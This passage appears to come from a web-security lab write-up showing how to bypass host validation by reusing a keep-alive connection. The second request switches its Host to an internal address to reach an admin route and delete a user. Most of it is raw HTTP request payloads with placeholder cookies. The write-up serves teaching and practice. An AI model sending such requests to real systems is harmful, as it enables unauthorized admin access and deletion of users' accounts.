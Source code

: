 
Second one takes advantage of the same connection and changes host and path to bypass host validation and access private routes.

![incorrect](images/incorrectAdmin.png)

IDEA ==> review the response to the malicious request and see how to build a delete request for user `carlos`

>So, final requests to delete user `carlos` are:

```html
GET / HTTP/1.1
Host: TARGET.net
Cookie: session=ValueOfSessionCookie
Content-Length: 48
Content-Type: text/plain;charset=UTF-8
Connection: keep-alive
```  

>Next request is the second tab in group sequence of requests.  

```html
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=YOUR-LAB-COOKIE; session=YOUR-SESSION-COOKIE
Content-Type: x-www-form-urlencoded
Content-Length: 53

csrf=TheCSRFTokenValue&username=carlos
```  
